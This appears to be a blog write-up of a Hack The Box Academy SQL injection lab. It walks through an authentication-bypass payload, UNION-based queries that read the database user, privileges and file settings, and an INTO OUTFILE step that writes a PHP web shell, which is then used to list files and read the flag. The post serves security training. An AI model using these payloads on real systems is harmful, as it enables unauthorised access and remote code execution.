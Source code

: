 ```yaml
---
layout: post
title:  "Hack The Box - Academy - SQL Injection Fundamentals"
description: "Master the basics of SQL injection with the Hack The Box - Academy - SQL Injection Fundamentals. Learn how to detect and exploit SQL vulnerabilities, enhancing your penetration testing skills."
date:   2024-10-03 20:25
image:  /images/htb/sql-injection/logo.png
tags:   [sqli,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's SQL Injection Fundamentals module.

><b>Overview:</b>
 Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
<br/>
<a href="https://academy.hackthebox.com/module/33/section/193">Introduction to SQL Injection</a>

<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/33/section/177">SQL Injection Fundamentals</a><br/>
<a href="https://jacozwarts.github.io/images/htb/sql-injection/Sql_Injection_Fundamentals_Module_Cheat_Sheet.pdf">SQL Injection - Cheat Sheet</a>
<br/>


## Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

#### 1. Bypassing the Login Page with SQL Injection
Begin by visiting the web application's login page. To bypass authentication, input the following SQL injection payload in the username field:
```
' OR 1=1 -- -
```
![Login Page](/images/htb/sql-injection//login.png)
This payload effectively bypasses the login check, granting us access to the application without valid credentials.

#### 2. Testing for SQL Injection in the Search Bar
After logging in, navigate to the Payroll information section and locate the search bar. We can test for SQL injection vulnerabilities by submitting the following payload:
![Payroll Information page](/images/htb/sql-injection/payroll_info_table.png)
```
' ORDER BY 1 -- -
```
![Test for SQL Injection](/images/htb/sql-injection/orderby_test.png)
If the page loads successfully without errors, it suggests the search bar is vulnerable to SQL injection. Now, we’ll proceed to determine the number of columns in the underlying query.

#### 3. Determining the Column Count
To identify the column count for the SQL query, increment the ORDER BY number until an error is returned. When an error occurs, reduce the count by one—this gives you the number of columns in the query.
![Column Count](/images/htb/sql-injection/orderby6.png)
![Column Count](/images/htb/sql-injection/orderby6-result.png)
#### 4. Identifying the Current User
With knowledge of the column count, we can perform an In-Band Union-Based SQL injection to retrieve key information, such as the current user:
```
' UNION SELECT 1,2,user(),3,4 -- -
```
![Current User](/images/htb/sql-injection/currentuser.png)

#### 5. Checking User Privileges
To explore the privileges granted to the current user, use the following query:
```
' UNION SELECT 1, grantee, privilege_type,is_grantable,3 FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'"-- -
```
![User Privileges](/images/htb/sql-injection/user_privileges.png)
If the user has file permissions, we can proceed with attempting file operations.

#### 6. Accessing MySQL Directories
Next, check the directories accessible through MySQL by querying the secure_file_priv variable:
```
' UNION SELECT 1, variable_name, variable_value, 4,5
FROM information_schema.global_variables where
variable_name="secure_file_priv"-- -
```
![Secure File Priv](/images/htb/sql-injection/mysql_directory_access.png)

If the `SECURE_FILE_PRIV` value is empty, it indicates that file read/write operations can be performed anywhere on the system.

#### 7. Writing a Web Shell to the Server
We’ll now attempt to write a web shell to the server. Initially, try writing the shell to the default web directory:

![Webshell writing failed](/images/htb/sql-injection/write_permission_denied.png)
```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/shell.php'-- -
```
If permission is denied, update the file path to target a different directory, such as the dashboard directory (Payroll Information URL is /dashboard/dashboard.php):

```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```
#### 8. Testing the Web Shell
Once the web shell is successfully written, test it by navigating to the URL:
![Testing web shell](/images/htb/sql-injection/webshell-executed.png)
```
{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=ls
```
This command list all files in the directory, confirming that the web shell is working.

#### 9. Retrieving the Flag
Enumerate the directories to locate the flag. Once found, use the cat command to display its contents:
```
http://{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=cat%20../../../../flag_cae1dadcd174.txt
```
![Flag result](/images/htb/sql-injection/flag_result.png)
<br/>
Submit the contents of the flag as the answer to complete the challenge.
<hr/>